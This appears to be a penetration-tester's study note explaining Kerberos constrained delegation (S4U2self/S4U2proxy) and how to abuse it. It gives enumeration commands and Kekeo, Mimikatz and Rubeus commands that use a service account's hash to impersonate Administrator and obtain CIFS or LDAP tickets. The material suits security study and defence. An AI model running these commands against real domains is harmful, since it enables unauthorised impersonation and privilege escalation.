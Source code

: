 ```yaml
---
tags:
  - privesc
cssclasses:
  - kekeo
  - s4u
  - MimiKatz
  - Rubeus
---
```

- When enabled on a service account, it allows access to only specific services on specified computers as a user.
- A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.
- To impersonate a user, **Service for User (S4U)** extension is used which provides two extensions:
	- Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute.
	- Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service is controlled by msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded to.

![[Constrained_Delegation.svg]]
1. A user authenticates to the web service (running with a service account) using a non-[[Kerberos]] compatible authentication mechanism
2. The web service requests a ticket from the KDC for the user's account without supplying a password, as the service account
3. The KDC checks the service account's userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that the user's account is not blocked for delegation. If OK, it returns a forwardable ticket for the user's account (S4U2Self)
4. The service then passes this ticket back to the KDC and requests a service ticket for the `CIFS/computer-name-domain-name-fqdn` service
5. The KDC checks the msDS-AllowedToDelegateTo field on the service account. If the service is listed, it will return a service ticket for the respective domain name (S4U2Proxy)
6. The web service can now authenticate to the CIFS on computer-name as the user using the supplied TGS.

In short, user requests authentication, service account checks if the user is not blocked for delegation with the DC, receives the ticket from DC, then the ticket is sent back with a SPN attached to request a TGS, and then the KDC checks whether the service account can request that service or not in msDS-AllowedToDelegateTo. TGS is returned after it checks whether the service that was requested is actually listed. Finally, the user is authenticated.

To abuse constrained delegation in this scenario, we need to have access to the service account. If we have access to that account, it is possible to access services listed in msDS-AllowedToDelegateTo of the service account as **any** user.

#### Enumerate users and computers with constrained delegation enabled

```powershell title:"Enumerate users and computers with constrained delegation enabled (PowerView)"
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

```powershell title:"Enumerate users and computers with constrained delegation enabled (ActiveDirectory Module)"
Get-ADObject -Filter {msDS-AllowedToDelegateto -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

#### Abusing with Kekeo

Either plaintext password or NTLM hash/AES keys is required. Assuming we have access to the service account's hash.

```batch title:"Request TGT"
kekeo# tgt::ask /user:service_account /domain:domain.name /rc4:<ntlm_hash>
```

```batch title:"Request TGS"
kekeo# tgs::s4u /tgt:service_account_tgt.kirbi /user:Administrator@domain.name /service:cifs/computer-name-fqdn
```

```powershell title:"Inject the ticket"
Invoke-MimiKatz -Command '"kerberos::ptt TGS.kirbi"'
```

#### Abusing with Rubeus

```batch title:"Request TGT and TGS in a single command"
Rubeus.exe s4u /user:service_account /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/computer-name-fqdn /altservice:ldap /ptt
```

Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified. This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service.

